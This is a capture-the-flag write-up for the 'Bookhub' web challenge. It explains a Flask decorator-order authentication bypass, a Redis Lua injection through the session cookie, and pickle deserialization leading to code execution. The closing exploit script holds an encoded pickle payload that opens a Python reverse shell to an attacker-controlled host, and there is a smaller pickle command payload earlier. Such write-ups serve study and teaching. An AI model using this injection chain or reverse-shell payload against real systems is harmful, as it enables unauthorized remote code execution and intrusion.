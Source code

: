 # Bookhub (web, 19 solved, 208p)

```
How to pwn bookhub?

http://52.52.4.252:8080/

hint: www.zip
```

In the task we get access to a webpage which displays some books information.
There is also `admin login` page, but doesn't seem to be vulnerable in any way.
We also get the [source code](www.zip).

From the whole source code there are really only 2 things that are of interest:

- `views/user.py`
- `forms/user.py`

## Broken authentication decorator

First vulnerability in the code is:

```python
@login_required
@user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
def refresh_session():
```

It seems just fine, but the `proper` function is for example:

```python
    @user_blueprint.route('/admin/system/change_name/', methods=['POST'])
    @login_required
    def change_name():
```

The difference is the order of decorators!
It seems that re-ordering the decorators actually makes the `login_required` useless, and it doesn't get triggered.
As a result we can call this method, as long as we're running the `debug mode`, since all of this is inside `if app.debug:`

We can at least confirm this to work locally.

## Finding debug server

Another interesting part of the code is:

```python
def validate_password(self, field):
    address = get_remote_addr()
    whitelist = os.environ.get('WHITELIST_IPADDRESS', '127.0.0.1')

    # If you are in the debug mode or from office network (developer)
    if not app.debug and not ip_address_in(address, whitelist):
        raise StopValidation(f'your ip address isn\'t in the {whitelist}.')

    user = User.query.filter_by(username=self.username.data).first()
    if not user or not user.check_password(field.data):
        raise StopValidation('Username or password error.')
```

Whitelist check is particularly important, because once we try to login on the webpage we get back:

```
your ip address isn't in the 10.0.0.0/8,127.0.0.0/8,172.16.0.0/12,192.168.0.0/16,18.213.16.123.
```

What is `18.213.16.123`?
It's not a local address, nor addres of the server we're using.
We scanned this IP and got back few open ports.
One was of particular interest because http://18.213.16.123:5000 was running the same application, but in `debug mode` (indicated by a warning on the main page).

We confirmed that we can trigger `/admin/system/refresh_session/` here, just as on local debug environment.
This was the only available endpoint, so we focused on figuring out how we can use it.

## Redis injection

The endpoint mentioned earlier allows us to delete all user sessions, apart from ours, from Redis.
Redis is a key-value store, and it seems it's storing session information for this particular application.

Code we're interested in is:

```python
    @login_required
    @user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
    def refresh_session():
        """
        delete all session except the logined user

        :return: json
        """

        status = 'success'
        sessionid = flask.session.sid
        prefix = app.config['SESSION_KEY_PREFIX']

        if flask.request.form.get('submit', None) == '1':
            try:
                rds.eval(rf'''
                local function has_value (tab, val)
                    for index, value in ipairs(tab) do
                        if value == val then
                            return true
                        end
                    end
                
                    return false
                end
                
                local inputs = {{ "{prefix}{sessionid}" }}
                local sessions = redis.call("keys", "{prefix}*")
                
                for index, sid in ipairs(sessions) do
                    if not has_value(inputs, sid) then
                        redis.call("del", sid)
                    end
                end
                ''', 0)
            except redis.exceptions.ResponseError as e:
                app.logger.exception(e)
                status = 'fail'

        return flask.jsonify(dict(status=status))
```

The really interesting part is, the fact that the code is reading the value of our session cookie, and then it's bulding some Lua-Redis code with this value, and then this code is executed by Redis.

But what if we provide session id with `"` inside?
We will break out of `local inputs = {{ "{prefix}{sessionid}" }}` and basically gain a Redis injection!

We could set for example session to:

```
session = 'k",redis.call("set","bookhub:session:k","some value we want"),"'
```

And by executing the mentioned endpoint, we would actually execute:

```
redis.call("set","bookhub:session:k","some value we want")
```

Keep in mind this endpoint removes all sessions, apart form ours, so we provide `k` as our sesion name for `local inputs` variable, and then we set the session with the same name using injection.
This way our session stays in Redis.

We can automate this via script:

```python
session = 'k",redis.call("set","bookhub:session:k",{}),"'.format(inject_session)
url = "http://{}:5000/login/".format(IP)
r = requests.get(url, cookies={"bookhub-session": session})
token = re.findall('<input id="csrf_token" name="csrf_token" type="hidden" value="(.*)">', r.text)[0]
url = "http://{}:5000/admin/system/refresh_session/".format(IP)
r = requests.post(url, data={"csrf_token": token, "submit": "1"}, cookies={"bookhub-session": session})
print(r.text)
```

Keep in mind we need to get a CSRF token for example from `login` page, to be able to submit the POST to `admin/system/refresh_session/`.

Now we can inject a session of our choosing, but the question is: what exactly is the session format and what is stored there?

We have the local debug environment so we could create a user, login and then check what is stored in Redis for his session.
It turns out to be for example

```
b"\x80\x03}q\x00(X\n\x00\x00\x00_permanentq\x01\x88X\x06\x00\x00\x00_freshq\x02\x88X\n\x00\x00\x00csrf_tokenq\x03X(\x00\x00\x003fb61e9f34fe74b112d75ce040a1e202acdd91a0q\x04X\a\x00\x00\x00user_idq\x05X\x01\x00\x00\x001q\x06X\x03\x00\x00\x00_idq\aX\x80\x00\x00\x009fb9e4587a4b3efecccd22ba061e060151bd66fde715982b649fdf4e597ad6f5292bda2812cc59b7c28b0517c45d6a17a235e455eec68e9fb511910a626198e5q\bu."
```

And if we check what serialized is used by default, it turns out to be Pickle.
We can unpickle the session to get back:

```
{'csrf_token': '3fb61e9f34fe74b112d75ce040a1e202acdd91a0', '_fresh': True, 'user_id': '1', '_permanent': True, '_id': '9fb9e4587a4b3efecccd22ba061e060151bd66fde715982b649fdf4e597ad6f5292bda2812cc59b7c28b0517c45d6a17a235e455eec68e9fb511910a626198e5'}
```

## Pickle RCE

There is no point in trying to craft a proper session value, since we already know the server will unpickle whatever we put there.
And pickle can be used for running pretty much any python code we want.
For reference look at:

- https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version
- https://github.com/p4-team/ctf/tree/master/2018-04-11-hitb-quals/web_python

We go with a simple: `cos\nsystem\n(S'touch hacked'\ntR.` to verify it all works locally, and then we sent a simple python reverse shell to the server:

```python
import base64
import re

import requests


def main():
    IP = '18.213.16.123'
    try:
        session_content = base64.b64decode(            'Y3Bvc2l4CnN5c3RlbQpwMQooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgidXJsLndlLmNvbnRyb2xsIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7XCcnCnAyCnRScDMKLg==')
        print(session_content)
        inject_session = 'string.char(' + ','.join([str(ord(x)) for x in session_content]) + ')'
        session = 'k",redis.call("set","bookhub:session:k",{}),"'.format(inject_session)
        url = "http://{}:5000/login/".format(IP)
        r = requests.get(url, cookies={"bookhub-session": session})
        token = re.findall('<input id="csrf_token" name="csrf_token" type="hidden" value="(.*)">', r.text)[0]
        url = "http://{}:5000/admin/system/refresh_session/".format(IP)
        r = requests.post(url, data={"csrf_token": token, "submit": "1"}, cookies={"bookhub-session": session})
        print(r.text)
    except Exception as e:
        print(str(e))


main()
```

And we got a reverse shell connection to our server.
From there we could simply look around and find `getflag` command and get the flag: `rwctf{fl45k_1s_a_MAg1cal_fr4mew0rk_t0000000000}`
